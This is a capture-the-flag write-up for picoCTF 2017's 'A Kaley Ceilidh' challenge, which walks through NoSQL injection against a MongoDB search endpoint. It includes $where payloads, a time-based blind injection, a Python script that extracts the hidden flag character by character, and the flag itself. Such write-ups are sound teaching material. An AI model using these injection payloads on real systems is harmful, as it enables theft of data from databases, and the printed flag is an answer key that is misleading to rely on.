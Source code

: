 ## A Kaley Ceilidh - 175

### Description

Everyone loves Scottish food [citation needed], but do you ever wish there were more hipster-y options? Well look no further than a [Kaley Ceilidh](http://shell2017.picoctf.com:8080/).

### Hint

  - There's not a whole lot you can do on this application. If your normal attacks aren't working, perhaps you need to think bigger. Humongous, in fact.
  - The server probably won't show you anything that contains a "flag" property.

### Write up

The hint says 'Humongous', which implies that the server uses MongoDB.

When I use normal search 'aaaa' in the site, the query is passed in json format.

    {"tags": "aaaa"}

Also when I use advanced search Name: 'aaaa', Price: 'bbbb', Tag: 'cccc'.   

    {"name": "aaaa", "tags": "cccc", "cost": "$bbbb"}

As I corrupt json format like below, it outputs error.

    {"asdf", }

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Error</title>
    </head>
    <body>
        <pre>SyntaxError: Unexpected token } in JSON at position 9
            <br> &nbsp; &nbsp;at Object.parse (native)
            <br> &nbsp; &nbsp;at parse (/problems/fb57a362b19de0f734e21132a9b7e552/node_modules/body-parser/lib/types/json.js:88:17)
            <br> &nbsp; &nbsp;at /problems/fb57a362b19de0f734e21132a9b7e552/node_modules/body-parser/lib/read.js:116:18
            <br> &nbsp; &nbsp;at invokeCallback (/problems/fb57a362b19de0f734e21132a9b7e552/node_modules/raw-body/index.js:262:16)
            <br> &nbsp; &nbsp;at done (/problems/fb57a362b19de0f734e21132a9b7e552/node_modules/raw-body/index.js:251:7)
            <br> &nbsp; &nbsp;at IncomingMessage.onEnd (/problems/fb57a362b19de0f734e21132a9b7e552/node_modules/raw-body/index.js:307:7)
            <br> &nbsp; &nbsp;at emitNone (events.js:86:13)
            <br> &nbsp; &nbsp;at IncomingMessage.emit (events.js:185:7)
            <br> &nbsp; &nbsp;at endReadableNT (_stream_readable.js:974:12)
            <br> &nbsp; &nbsp;at _combinedTickCallback (internal/process/next_tick.js:80:11)
            <br> &nbsp; &nbsp;at process._tickCallback (internal/process/next_tick.js:104:9)
        </pre>
    </body>
</html>
```

Or if I send correct query, it outputs json response.

    {"name": "Kale Haggis"}

```
{
    "data": [
        {
            "name": "Kale Haggis",
            "description": "All the things you hate about haggis, without any of its almost-redeeming qualities!",
            "cost": "$13.37",
            "tags": [
                "kale",
                "haggis",
                "gross",
                "food",
                "green",
                "expensive"
            ]
        }
    ],
    "time": 1
}
```

Okay... So the server side script might be like this.

    db.blahblah.find(JSON_DATA_WE_SEND);

As I searched google, there is a `$where` operator that allows us to execute javascript code in mongoDB query. (https://zanon.io/posts/nosql-injection-in-mongodb)

    {"$where": "return true"}


```
{
    "data": [
        {
            "name": "Kale Haggis",
            "description": "All the things you hate about haggis, without any of its almost-redeeming qualities!",
            "cost": "$13.37",
            "tags": [
                "kale",
                "haggis",
                "gross",
                "food",
                "green",
                "expensive"
            ]
        },
        {
            "name": "Quinoa Porridge",
            "description": "Imagine eating slimy oatmeal that was bitter no matter how much sugar you put in. That's about what it's like.",
            "cost": "$3.14",
            "tags": [
                "quinoa",
                "porridge",
                "slimy",
                "oatmeal",
                "food",
                "bitter"
            ]
        },
        ...
```

Oh, it works!

But as hint says, the server does not return things that has flag property, which means we cannot directly see the flag.

So it's a blind injection problem, and since we cannot make difference responses, time-based injection can be a solution.

```
{
  "$where":
  "
    if(this.tags.indexOf('flag') != -1)
    {
      var d = new Date().getTime();
      while(new Date().getTime() < d + 2000){;}
    };
    return false;
  "
}
// newline is just for readability.
```

If there is a thing that contains `flag` tag, the code will sleep for 2 seconds.

And it works, okay... let's write a script.

```python
import requests
import time

url = 'http://shell2017.picoctf.com:8080/search'

# alnum = '1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ~!@#$^&*()-=+'
alnum = '1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ~!@#$^&*()-=+_%{} '
num = '1234567890'
flag = ''
for idx in range(0, 31):
    for al in alnum:
        payload = {
            '$where': "if(this.tags.indexOf('flag') != -1 && this.flag[%d]=='%s'){ var d = new Date().getTime(); while(new Date().getTime() < d + 2000){;}}; return false;" % (idx, al),
            # '$where': "if(this.tags.indexOf('flag') != -1 && this.flag && this.flag.length=='%d'){ var d = new Date().getTime(); while(new Date().getTime() < d + 2000){;}}; return false;" % al,
        }

        s = time.time()
        response = requests.post(url=url, json=payload)
        e = time.time()

        r = response.text
        # print(r)
        if e-s > 2:
            print(idx, al)
            flag += al
            break

print(flag)
```

    name : "Organic Flag"
    description : "Submit me for points"
    tag : "flag1"
    flag : "flag{I_only_eat_0rg4n1c_flages}"

> flag{I_only_eat_0rg4n1c_flages}

